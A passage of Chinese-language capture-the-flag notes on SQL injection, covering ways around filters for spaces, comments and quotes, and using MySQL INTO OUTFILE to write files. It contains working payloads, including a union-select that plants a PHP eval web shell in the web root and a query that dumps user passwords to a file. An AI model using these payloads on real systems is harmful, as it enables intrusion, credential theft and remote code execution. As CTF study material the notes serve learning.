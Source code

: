 ```sql
1 row in set (0.00 sec)
```

## 过滤空格

```sql
/**/
括号 SELECT(password),2,(3)from(ctfshow_user)%23
回车(%0a)
%09(tab键)
%0c
```

## 过滤了注释符#和--

一些题不需要注释

## 过滤引号

用`\`实现逃逸

## 写马（文件）

**检查权限**

```sql
show variables like '%secure%';
```

查看MySQL是否有读写文件权限

结果中secure_file_prive需要不为null

**写**

```sql
id=0' union select 1,"<?php eval($_POST[1]);?>" into outfile "/var/www/html/1.php%23"

id=1' union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt'--+&page=1&limit=10
```

题目直接给了个写文件的语句

```sql
select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';
```

但是写入的内容不可控，不过呢into outfile后面还可以跟lines terminated by
比如

```sql
select * from ctfshow_user into outfile a.txt' lines terminated by 'abc';
```

这样所有查询出来的数据结尾都会加一个abc，并且写入到a.txt中
payload
